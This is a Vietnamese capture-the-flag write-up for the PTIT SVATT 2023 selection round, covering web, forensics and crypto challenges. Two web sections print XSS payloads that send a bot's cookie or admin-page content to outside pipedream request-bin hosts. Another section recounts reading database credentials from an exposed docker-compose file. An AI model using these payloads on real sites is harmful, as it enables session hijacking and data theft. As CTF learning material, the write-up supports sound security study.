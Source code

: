 ```yaml
---
title: Writeup CTF Tuyển chọn SVATT PTIT 2023
date: 2023-03-28 22:00:00 +0700
categories: [Writeup, PTITSVATTT2023]
tags: [ctf,writeup]     # TAG names should always be lowercase
---
```



# Writeup CTF Tuyển chọn SVATT PTIT 2023

---

# Web01

![Untitled](/assets/img/PTITSVATTT/Untitled.png)

Chúng ta được cho 2 link, 1 là link challenge, 2 là link của con bot. Kinh nghiệm cho mình thấy đây là 1 bài Reflected XSS để lấy cookie

Sau khi đăng ký và đăng nhập, đây là UI của web challenge gồm 1 form để nhập note, và note được nhập sẽ hiển thị ngay bên dưới

![Untitled](/assets/img/PTITSVATTT/Untitled%201.png)

Test thử với payload đơn giản `<img src=x onerror=alert(1)`, nhận thấy trang web bị lỗi XSS. 

![Untitled](/assets/img/PTITSVATTT/Untitled%202.png)

Ý tưởng bây giờ là khai thác Reflected XSS để lấy cookie của bot. Payload để lấy cookie của bot:

```jsx
<img src=x onerror="this.src='https://eo4kqgjvne2o998.m.pipedream.net/?'+document.cookie; this.removeAttribute('onerror');">
```

Giải thích payload: Javascript được thực thi sẽ gửi GET HTTP request đến URL requestbin kèm với cookie của bot

Sau khi gửi đường link cho bot, mã Javascript được thực thi, lấy được cookie của bot

![Untitled](/assets/img/PTITSVATTT/Untitled%203.png)

Thay cookie của người dùng bằng Cookie của bot, truy cập admin panel ta sẽ lấy được flag

![Untitled](/assets/img/PTITSVATTT/Untitled%204.png)

![Untitled](/assets/img/PTITSVATTT/Untitled%205.png)

---

# Web02

![Untitled](/assets/img/PTITSVATTT/Untitled%206.png)

UI của challenge  là 1 form search

![Untitled](/assets/img/PTITSVATTT/Untitled%207.png)

Form search làm mình nghĩ ngay đến SQLi : D. Nhưng sau khi test thử với Burp Suite và sqlmap thì mình không detect được SQLi xD

dirsearch URL của challenge, tìm được 1 endpoint thú dzị là `/docker-compose.yml`

![Untitled](/assets/img/PTITSVATTT/Untitled%208.png)

Truy cập [`167.172.80.186:5000/docker-compose.yml`](http://167.172.80.186:5000/docker-compose.yml) lấy được password vào mysql db : D

![Untitled](/assets/img/PTITSVATTT/Untitled%209.png)

Chui vào db mình lấy được flag xD

![Untitled](/assets/img/PTITSVATTT/Untitled%2010.png)

---

# Web01-again

![Untitled](/assets/img/PTITSVATTT/Untitled%2011.png)

Vẫn là cái UI của bài web01 trước

![Untitled](/assets/img/PTITSVATTT/Untitled%2012.png)

vẫn là con BOT cũ

![Untitled](/assets/img/PTITSVATTT/Untitled%2013.png)

Nhưng cái khác ở đây là không thể dùng Reflected XSS để lấy cookie của bot do có flag `http-only`

![Untitled](/assets/img/PTITSVATTT/Untitled%2014.png)

Ý tưởng của mình là thay vì lấy cookie của con bot để vào được admin panel, giờ mình sẽ điều khiển con bot  lấy luôn flag về cho mình : D

POC để con bot truy cập `admin pannel` và lấy flag cho mình

```jsx
<script>
   var req = new XMLHttpRequest(); // Initializes the request object
   req.onload=reqListener; // Set the listener reqListener that is triggered when the response is ready
   var url="http://167.172.80.186:9999/admin.php"; // Initializes the URL of the PHP info page
   req.withCredentials=true; // Send the cookie header
   req.open("GET",url,false); // The request will be sent to the PHP info page of Metasploitable 2 (192.168.240.128) through the GET method synchronously
   req.send(); // Send the request
   function reqListener() {
      var req2=new XMLHttpRequest(); 
      const sess=this.responseText.substring(this.responseText.indexOf("ATTT"));
      req2.open("GET","https://eoisvenotwsj688.m.pipedream.net/?data="+btoa(sess),false);
      req2.send() 
   };
</script>
```

ok, giải thích qua 1 chút POC

đầu tiên bot sẽ truy cập vào trang admin

Sau đó nó sẽ lọc response để lấy ra flag theo format `ATTT{.......}`

bước cuối nó gửi flag để server của mình, mã hóa base64 để tránh việc request URL quá dài

và boom

![Untitled](/assets/img/PTITSVATTT/Untitled%2015.png)

và boom, again

![Untitled](/assets/img/PTITSVATTT/Untitled%2016.png)

---

# For01

![Untitled](/assets/img/PTITSVATTT/Untitled%2017.png)

Ok, challenge này cho chúng ta 1 file rar, sau khi giải nén cấu trúc thư mục sẽ như thế này

![Untitled](/assets/img/PTITSVATTT/Untitled%2018.png)

Tóm gọn lại là có 100 thư mục được đánh dấu từ 0-100, trong mỗi thư mục lại có 100 thư mục được đặt tên từ 0-100. Trong mỗi thư mục con lại có 100 file `.txt` `0.txt` đến `100.txt` . Nhiệm vụ của chúng ta là tìm ra flag trong đống file `.txt` đấy : D. Mình dùng python để tự động hóa quá trình tìm flag. Đây là source code:

```jsx
import os

for i in range(0,101):
    for j in range(0,101):
        for filename in os.listdir('./{}/{}/'.format(i,j)):
            f = open('./{}/{}/'.format(i,j)+filename,'r')
            r = f.read()
            if r != "almost" and r != "no" and r!="nah" and r!="you_got_it" and r!="try_again" and r!="Not_this_time" and r!="so_close" and r!="nope" and r!="better_luck_next_time":
                print(r)
```

Mình sử dụng 2 vòng lặp và đọc tất cả các file `.txt` trong thư mục con, kết quả tìm ra flag : D

![Untitled](/assets/img/PTITSVATTT/Untitled%2019.png)

---

# Crypto01

![Untitled](/assets/img/PTITSVATTT/Untitled%2020.png)

Source code enc.cpp:

```jsx
#include <iostream>
#include <string>
using namespace std;

#define EL printf("\n")

string flag = "ATTT{fake_flag}";

void bases(string &s) {
    for (int i = 0; i < s.size(); i += 4)
        printf("%o %u %x %u ", (unsigned char) s[i], (unsigned char) s[i + 1], (unsigned char) s[i + 2], (unsigned char) s[i + 3]);
    EL;
}

int main() {
    freopen("res.txt", "w", stdout);
    bases(flag);

    return 0;
}
```

Thuật toán: Lấy 4 kí tự liền nhau, kí tự đầu tiên sẽ chuyển về dạng octal, kí tự  thứ 2 là dạng decimal, kí tự thứ 3 là dạng hex và kí tự thứ 4 tiếp tục là decimal, và lặp lại như vậy đến khi hết chuỗi.

Mình hiểu thuật toán nhưng quên mất cách code c++, code python thì lú nên tức quá quay ra làm bằng tay xD. Bật 4 tab cyberchef và quẩy tầm 2,3p mình được flag ám ảnh nhất mình từng tìm được : D

![Untitled](/assets/img/PTITSVATTT/Untitled%2021.png)